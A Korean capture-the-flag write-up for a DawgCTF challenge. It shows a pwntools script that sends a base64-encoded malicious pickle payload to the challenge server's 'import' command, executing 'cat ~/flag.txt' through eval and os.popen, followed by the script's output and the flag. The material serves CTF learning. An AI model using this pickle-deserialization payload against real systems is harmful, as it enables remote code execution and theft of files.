


# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**


# **Write-Up**

해당 주소로 접속하여 help를 처보면 사용할 수 있는 명령어들이 나온다.



import 명령어로 cat ~/flag.txt가 되는지 확인해본다.



다음과 같은 python 코드로 flag를 획득할 수 있다.

```py
from pwn import *
import base64
r = remote("umbccd.io", 4200)
r.recvuntil('>')
payload = base64.b64encode(b"c__builtin__\neval\n(S'print(__import__('os').popen('cat ~/flag.txt').read())'\ntR.")
r.sendline(b"import "+payload)
while True:
    flag = r.recv()
    if "DawgCTF{" in flag.decode():
        print(flag.decode())
        break

[Output]
[x] Opening connection to umbccd.io on port 4200
[x] Opening connection to umbccd.io on port 4200: Trying 167.172.155.117
[+] Opening connection to umbccd.io on port 4200: Done
DawgCTF{funn13st_s#$&_ive_3v3r_s33n}

Done!
##################
...
```


# **FLAG**

**DawgCTF{funn13st_s#$&_ive_3v3r_s33n}**